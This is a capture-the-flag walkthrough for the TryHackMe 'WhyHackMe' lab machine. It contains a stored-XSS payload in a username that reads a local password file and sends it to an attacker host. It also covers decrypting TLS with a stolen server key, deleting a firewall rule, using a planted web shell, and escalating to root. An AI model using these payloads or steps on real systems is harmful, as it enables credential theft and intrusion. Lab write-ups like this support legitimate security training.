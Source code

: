 # WhyHackMe

https://tryhackme.com/room/whyhackme, rated Medium

1. A scan will reveal 21, 22 and 80. Accessing FTP reveals a `update.txt` file, saying that some credentials will be available from localhost/dir/pass.txt but only by the admin

2. Going to the website reveals a simple blog. You can login at login.php, register at register.php and so on, with blog.php being where you can leave comments once logged in. Notably, a comment from the admin already exists saying they will 'carefully review all comments made', a fairly strong hint that this is an XSS exploit.

3. The cookie for your user is HTTPOnly, so it will not be possible to steal the admin's cookie. However, first finding the point of injection is important. Creating a comment with script tags gets escaped when it is rendered. However, the user's name is also rendered and by registering a user with xss in its username, you can observe this is successfully executed.

4. To exploit the admin's viewing of the site, I created a user with the following username:

     `<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://attack-box:1234?q="+t,{mode:"no-cors"}))</script>`

   Make a comment with any content on the blog so the stored XSS is in place. I then created a python webserver on my attack box and waited. After a minute, I got a hit:

     `10.10.63.172 - - [05/Jan/2024 21:32:15] "GET /?q=jack:[redacted] HTTP/1.1" 200 -`

6. These credentials allow access as the user 'jack' over ssh, where you can access the user flag. `sudo -l` reveals that jack can run iptables as root, but this does not provide easy privesc

7. Enumerating the machine some more, you can find under `/opt` another note and a `capture.pcap`. The note says there is a hacked site running out of `/usr/lib/cgi-bin` which is inaccessible to jack, and that the pcap will provide help. Opening the pcap reveals encrypted tls communication, with the only thing that can be recovered being the target port, 41312

8. To decrypt the traffic either a SSL key log or the private key of the server is required. Fortunately, the 41312 site is defined in the `000-default.conf` under `/etc/apache2/sites-available`. This reveals the path of the cert, which is readable: `/etc/apache2/certs/apache.key`

9. Putting this into wireshark (Edit > Preferences > Protocols > TLS > RSA Keys List) will decrypt the traffic and show how to access the shell that has been placed on the system. To view the site externally, use `sudo iptables -D INPUT 1` as jack to delete the blocking rule. The shell which requires the correct query string params and path, allows shell exec as the user 'h4ck3d'.

10. To finish the machine, use the shell to get a reverse shell or however you wish to get an interactive session (the machine has nc.openbsd). Then, by checking `sudo -l` you can see the hacker user has full access. Switch to root and get the final flag.
